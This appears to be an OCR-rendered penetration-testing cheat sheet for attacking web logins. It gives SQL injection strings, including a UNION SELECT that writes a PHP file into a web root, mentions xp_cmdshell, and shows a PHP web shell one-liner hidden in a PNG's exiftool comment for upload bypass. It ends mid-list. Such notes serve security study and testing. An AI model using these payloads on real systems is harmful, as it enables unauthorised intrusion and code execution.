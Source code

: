Brute force directory first (s’’ometime you don't need to login to pwn the machine)

Search credential by bruteforce directory

bruteforce credential

Search credential in other service port

Enumeration for the credential

Register first

SQL injection

XSS can be used to get the admin cookie

Bruteforce session cookie

## SQLi

Pentestmonkey cheatsheet

Try 

    admin'# (valid username, see netsparker sqli cheatsheet)

Try 

    abcd' or 1=1;--

Use UNION SELECT null,null,.. instead of 1,2,.. to avoid type conversion errors

For mssql,

xp_cmdshell

Use concat for listing 2 or more column data in one

For mysql,

try a' or 1='1 -- -

    A' union select "" into outfile "C:\xampp\htdocs\run.php" -- -'

## File Upload

Change mime type

Add image headers

Add payload in exiftool comment and name file as file.php.png

#### 1) 

    echo <?php system($_GET['cmd']); ?> shell.php 
    
#### 2) 

    exiftool "-comment<=shell.php" malicious.png 
    
#### 3) 

